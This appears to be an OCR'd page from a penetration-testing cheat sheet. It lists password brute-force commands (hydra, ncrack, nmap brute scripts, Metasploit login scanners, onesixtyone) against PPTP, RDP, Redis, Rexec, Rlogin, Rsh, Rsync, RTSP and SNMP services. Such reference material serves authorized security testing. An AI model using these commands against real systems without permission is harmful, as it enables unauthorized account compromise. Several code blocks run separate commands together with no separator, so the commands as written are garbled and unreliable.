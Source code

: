 ### PPTP <a href="#pptp" id="pptp"></a>

```
cat rockyou.txt | thc-pptp-bruter –u <Username> <IP>
```

### RDP <a href="#rdp" id="rdp"></a>

```
ncrack -vv --user <User> -P pwds.txt rdp://<IP>hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
```

### Redis <a href="#redis" id="redis"></a>

```
msf> use auxiliary/scanner/redis/redis_loginnmap --script redis-brute -p 6379 <IP>hydra –P /path/pass.txt <IP> redis
```

### Rexec <a href="#rexec" id="rexec"></a>

```
hydra -l <username> -P <password_file> rexec://<Victim-IP> -v -V
```

### Rlogin <a href="#rlogin" id="rlogin"></a>

```
hydra -l <username> -P <password_file> rlogin://<Victim-IP> -v -V
```

### Rsh <a href="#rsh" id="rsh"></a>

```
hydra -L <Username_list> rsh://<Victim_IP> -v -V
```

​[http://pentestmonkey.net/tools/misc/rsh-grind](http://pentestmonkey.net/tools/misc/rsh-grind)​

### Rsync <a href="#rsync" id="rsync"></a>

```
nmap -sV --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 <IP>
```

### RTSP <a href="#rtsp" id="rtsp"></a>

```
hydra -l root -P passwords.txt <IP> rtsp
```

### SNMP <a href="#snmp" id="snmp"></a>

```
msf> use auxiliary/scanner/snmp/snmp_loginnmap -sU --script snmp-brute <target> [--script-args snmp-brute.communitiesdb=<wordlist> ]onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp_onesixtyone.txt <IP>hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt target.com snmp
```
